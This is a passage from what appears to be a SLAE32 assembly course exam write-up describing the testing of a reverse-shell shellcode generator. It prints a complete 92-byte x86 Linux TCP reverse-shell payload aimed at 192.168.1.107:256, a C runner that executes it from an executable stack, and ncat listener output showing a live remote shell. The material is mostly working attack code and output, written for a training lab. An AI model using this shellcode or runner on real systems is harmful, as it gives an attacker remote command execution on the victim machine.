 The python script and the `NASM` template are stored inside the aforementioned Git repository, to be more specific they can be found in the folder [assignment/2/automation](https://github.com/rbctee/SlaeExam/tree/main/slae32/assignment/2/automation).

## Testing

To test that everything works correctly, I used the python script to generate the shellcode for a TCP Reverse Shell listening on `192.168.1.107:256`:

```bash
python3 wrapper.py -p 256 -ip "192.168.1.107" -t ./template.nasm -o /tmp/output.nasm

# [+] Object file generated at /tmp/output.nasm
# [+] Executable binary generated at /tmp/output
# [+] Shellcode length: 92 bytes
# [+] Shellcode:
# "\x31\xc0\x89\xc3\x89\xc1\xb0\x66\xb1\x06\x51\xfe\xc3\x53\xb1\x02\x51\x89\xe1\xcd\x80\x89\xc6\x68\xc0\xa8\x01\x6b\xb3\x01\x66\x53\x31\xdb\xb3\x02\x66\x53\x89\xe1\x31\xdb\xb3\x10\x53\x51\x56\x31\xc0\xb0\x66\xb3\x03\x89\xe1\xcd\x80\x89\xd9\x51\xb0\x3f\x89\xf3\x8b\x0c\x24\x49\xcd\x80\x59\xe2\xf2\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc0\xb0\x0b\xcd\x80";
```

To test the shellcode generated by the python script, I used the following C `shellcode runner`:

```cpp
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x31\xc0\x89\xc3\x89\xc1\xb0\x66\xb1\x06\x51\xfe\xc3\x53\xb1\x02\x51\x89\xe1\xcd\x80\x89\xc6\x68\xc0\xa8\x01\x6b\xb3\x01\x66\x53\x31\xdb\xb3\x02\x66\x53\x89\xe1\x31\xdb\xb3\x10\x53\x51\x56\x31\xc0\xb0\x66\xb3\x03\x89\xe1\xcd\x80\x89\xd9\x51\xb0\x3f\x89\xf3\x8b\x0c\x24\x49\xcd\x80\x59\xe2\xf2\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc0\xb0\x0b\xcd\x80";

main() {
    printf("Shellcode length: %d\n", strlen(code));

    int (*ret)() = (int(*)())code;
    ret();
}
```

Compile and run it:

```bash
gcc -fno-stack-protector -z execstack shellcode_runner.c -o /tmp/tcp_rev_shell
/tmp/tcp_rev_shell
```

On my Kali machine, on which I previously set up a ncat listener (`sudo ncat -nvlp 256`), I received a reverse shell:

```bash
sudo nc -nvlp 256

# Ncat: Listening on :::256
# Ncat: Listening on 0.0.0.0:256
# Ncat: Connection from 192.168.1.105.
# Ncat: Connection from 192.168.1.105:60058.
# id
# uid=1000(rbct) gid=1000(rbct) groups=1000(rbct),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare)
# whoami
# rbct
```

